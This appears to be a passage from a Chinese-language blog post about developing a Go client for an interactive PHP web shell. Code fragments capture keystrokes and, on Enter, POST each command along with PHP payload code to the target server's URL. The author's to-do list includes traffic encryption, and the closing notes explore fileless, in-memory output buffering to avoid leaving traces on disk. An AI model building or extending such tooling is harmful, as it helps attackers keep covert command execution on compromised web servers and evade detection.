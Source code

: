 ```go
	var c string
	if char == 0x00 && key != 0x00 {
		c = fmt.Sprintf("%02x", key)
	} else if char != 0x00 {
		c = fmt.Sprintf("%02x", char)
	}

	t, _ := hex.DecodeString(c)
	cmdCache += url.QueryEscape(string(t))
}
```

就非常诡异，这样的检测会带来这样的效果

![image-20220912234724039](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20220912234724039.png)

那为啥不检测到Enter之后再发送呢？我改成了如下的代码

```go
for {
	char, key, err := keyboard.GetKey()
	if err != nil {
		panic(err)
	}
	if key != keyboard.KeyCtrlD {
		if key != keyboard.KeyEnter {
			if key == keyboard.KeySpace {
				cmdCache += " "
			} else if key == keyboard.KeyBackspace {
				cmdCache = cmdCache[:len(cmdCache)-1]
			} else {
				cmdCache += string(char)
			}
		} else {
			httpPost(fmt.Sprintf("%s?c=%s", Url, url.QueryEscape(cmdCache)), PostDat(PhpCode.write))
			cmdCache = ""
		}
	} else {
		fmt.Println("\n\n[!] Stop server..")
		httpPost(Url, PostData(PhpCode.stop))
	}
}
```

### 未解决的问题

- 自动判断目标系统类型
-  流量加密
-  解决一小段时间后就会断链的问题

第三个问题最蛋疼，亲测在linux上不存在这样的问题，windows上就会这样，猜测原因有可能是：webserver超时设置或者前面我改的监听键盘输入逻辑不合理，目前还没有进一步测试（懒狗见谅，不过也就这一两天的事，会尽快做好的



## idea

SplTempFileObject 用作临时回显的Buffer？默认2M内的SplTempFile会存入内存中 无文件落地？

https://www.php.net/manual/zh/spltempfileobject.construct

php://memory 总是把数据储存在内存中 支持读写和同时读写（流关闭之前）
